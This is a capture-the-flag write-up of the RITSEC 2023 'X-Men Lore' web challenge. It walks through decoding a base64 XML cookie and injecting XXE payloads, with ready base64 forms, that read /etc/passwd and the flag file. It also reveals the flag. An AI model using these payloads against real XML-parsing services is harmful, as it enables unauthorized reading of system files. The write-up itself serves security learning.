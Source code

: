 ```yaml
---
title: "[RITSEC 2023] - X-Men Lore"
date: 2023-04-01
author: me
categories: [writeups]
tags: ["Web", "RITSEC"]
toc: true
comments: false
mermaid: false
math: false
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>


*The 90's X-Men Animated Series is better than the movies. Change my mind.*

[https://xmen-lore-web.challenges.ctf.ritsec.club/](https://xmen-lore-web.challenges.ctf.ritsec.club/)


_____________________________________________________

<br>

**Table of contents:**

- <a href="#nmap">Nmap</a>
- <a href="#web-app">Web app</a>
- <a href="#exploit">Exploit</a>
- <a href="#flag">Flag</a>

<br>

### Nmap

```
┌──(teiiko㉿kali)-[~/Bureau/RITSEC]
└─$ nmap -sV xmen-lore-web.challenges.ctf.ritsec.club
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 12:37 CEST
Nmap scan report for xmen-lore-web.challenges.ctf.ritsec.club (34.111.96.219)
Host is up (0.016s latency).
rDNS record for 34.111.96.219: 219.96.111.34.bc.googleusercontent.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
80/tcp  open  http      gunicorn
443/tcp open  ssl/https gunicorn
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/

Service detection performed. Please report any incorrect resultsorg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.59 seconds

```
### Web app

By reaching the website, we arrive on a main page that allows us to choose an X-Men character. 

![first](/images/x-men/x-men-main.png)

So let's pick one of them.

![first](/images/x-men/x-men-main-2.png)

There is nothing interesting either in the page or in the source code, so i looked for cookies and found something interesting:

![first](/images/x-men/x-men-main-3.png)

Indeed, everytime we choose a charactere, a new cookie is set up:

![first](/images/x-men/x-men-main-4.png)

It looks like a base64-encoded string, so lets try to decode it.

```bash
teiiko@LAPTOP-1H1P71UP:~$ echo PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+V29sdmVyaW5lPC94bWVuPjwvaW5wdXQ+ | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Wolverine</xmen></input>
teiiko@LAPTOP-1H1P71UP:~$
```

Now, we understand we have to try for an XML eXternal Entity (XXE) Injection.

### Exploit

Firstly, I tried to read an existing file, like `/etc/passwd`.

So, I performed this payload...

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

...wich gives us in base64 the following string:

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPl0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+Cg==
```

Then, i replaced my cookie and refreshed the page.

![first](/images/x-men/x-men-main-6.png)

And we sucessfully get then content of `/etc/passwd` file !

### Flag

Here comes the most difficult part (a little bit too guessy imo), we have to find a file containing the flag. I tried a lot of things like log files, user specific files, linux default files.. but none gave me the flag or interesting data. So, after being stucked for an hour, I looked for more obvious files that we conventionally find in CTF (like `flag`, `flag.txt`, `/passwd`...).

So, I firstly tried to read a potential `flag` file and it worked... !

![first](/images/x-men/x-men-flag.png)

> 🚩 `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`

**Final payload:**

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://./flag">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

**Base64-encoded string**

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vLi9mbGFnIj5dPjxpbnB1dD48eG1lbj4meHhlOzwveG1lbj48L2lucHV0Pgo=
```